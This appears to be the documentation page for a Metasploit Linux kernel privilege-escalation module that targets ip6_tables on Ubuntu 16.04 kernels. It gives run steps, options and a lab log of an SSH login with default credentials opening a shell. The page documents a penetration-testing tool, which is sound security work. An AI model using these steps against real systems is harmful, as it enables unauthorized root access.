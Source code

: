 ## Notes

This module (and the original exploit) are written in two parts: pwn, and enjoy.  Originally a version.h file was also included, but that has been incorporated into the target selection for this exploit.

## Creating A Testing Environment

There are a few requirements for this module to work (ubuntu):

  1. ip6_tables.ko has to be loaded (root running `ip6tables -L` will do such)

This module has been tested against:

  !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!1. Ubuntu 16.04.1 (sudo apt-get install linux-image-4.4.0-21-generic)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic

This module has offsets for the following kernels, which have not been tested:
  
  1. 4.6.2 
  2. 4.2.0

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ipv6_table_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If the exploit should be live compiled on the system.  Default is auto, if the system has the necessary files, it will compile, if not then drop a binary

## Scenarios

### Ubuntu 16.04 (with linux-image-4.4.0-21-generic)

#### Initial Access

    [*] Processing ipv6.rc for ERB directives.
    resource (ipv6.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ipv6.rc)> set rhosts 192.168.2.137
    rhosts => 192.168.2.137
    resource (ipv6.rc)> set username ubuntu
    username => ubuntu
    resource (ipv6.rc)> set password ubuntu
    password => ubuntu
    resource (ipv6.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:36837 -> 192.168.2.137:22) at 2016-10-25 14:56:24 -0400